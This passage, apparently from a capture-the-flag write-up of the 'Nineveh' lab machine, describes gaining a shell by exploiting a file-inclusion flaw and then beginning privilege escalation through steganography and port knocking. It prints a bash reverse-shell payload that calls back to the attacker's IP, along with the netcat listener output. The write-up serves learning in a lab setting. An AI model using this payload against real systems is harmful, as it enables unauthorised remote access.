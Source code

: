 After inspecting the code after getting access - turns out the web app code was only looking for the `ninevehNotes` string. So I could have limited my file name length suffering if I had enumerated the LFI correctly. I then intercepted a request to the specified URL in Burp. Then added in a bash reverse shell back to my machine.

```code
&b=bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'
```

And finally! Got a shell as `www-data`! This felt like a battle!

![80 Getting a reverse shell using LFI](screenshots/80_trigger_lfi.png)

```none
└─$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.43] 37402
bash: cannot set terminal process group (1375): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privesc: `www-data` to `amrois`

To be honest - this privesc was hard for me and I wouldn't have got it without looking up a little hint. I keep forgetting to add steganography to my methodology, and have never encountered a port knocking implementation before. Looking back - all the information was provided:

- Port knocking was listed in the machine categories and in the linpeas script output
- The link to steganography was hinted at in the "Notes"

Once I had a hint of how to proceed - managed to find the `nineveh.png` file that was displayed on the web site on port 443. Checking the magic bytes (using the `file` command) showed it as an image.

```none
www-data@nineveh:/var/www/ssl/secure_notes$ file nineveh.png 
nineveh.png: PNG image data, 1497 x 746, 8-bit/color RGB, non-interlaced
```
